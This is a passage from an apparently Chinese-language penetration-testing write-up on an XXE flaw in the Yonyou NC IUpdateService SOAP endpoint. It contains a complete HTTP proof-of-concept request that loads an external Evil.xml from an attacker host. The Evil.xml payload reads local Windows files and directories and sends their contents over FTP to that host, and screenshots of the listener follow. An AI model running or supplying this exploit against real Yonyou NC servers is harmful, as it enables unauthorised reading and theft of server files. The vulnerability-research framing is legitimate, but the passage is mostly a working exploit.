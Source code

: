 <div align=center ><img width="600" src="https://user-images.githubusercontent.com/84888757/223007831-d55bdf34-2cca-4527-8457-95417165bc05.png" /></div>


### 2.4.3 构造 `poc` 去加载 `Evil.xml` 文件
```
POST /uapws/service/nc.uap.oba.update.IUpdateService HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "urn:getResult"
Content-Length: 442
Host: 192.168.50.13:8888
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.5.5 (Java/16.0.1)

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:iup="http://update.oba.uap.nc/IUpdateService">
   <soapenv:Header/>
   <soapenv:Body>
      <iup:getResult>
         <!--Optional:-->
         <iup:string><![CDATA[
<!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://192.168.50.100:9999/Evil.xml">%aaa;%ccc;%ddd;]>
<xxx/>]]></iup:string>
      </iup:getResult>
   </soapenv:Body>
</soapenv:Envelope>
```

![image](https://user-images.githubusercontent.com/84888757/223010863-ae921670-d9a7-4829-9501-c456b05f943e.png)


### 2.4.4 查看FTP服务监听

![image](https://user-images.githubusercontent.com/84888757/223008020-11f51491-d8b8-4e2e-88ba-02d0808e29b1.png)

如果要查看目录，修改 `Evil.xml` 即可。

📒 Evil.xml
```xml
<!-- <!ENTITY % file SYSTEM "file:///C:/Windows/win.ini"> -->
<!ENTITY % file SYSTEM "file:///C:/yonyou/home/">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://192.168.50.100:2121/%file;'>">
%int;
%send;
```
![image](https://user-images.githubusercontent.com/84888757/223008109-8ac82fd3-57d0-4003-8f7d-d866ff381bd8.png)

# 0x03 参考链接
- [用友NC系统XXE挖掘，读取系统文件](https://zone.huoxian.cn/d/201-ncxxe)
- [常见API接口渗透测试流程](https://mp.weixin.qq.com/s/82msGn0JOPEMsjSJLFkr8Q)



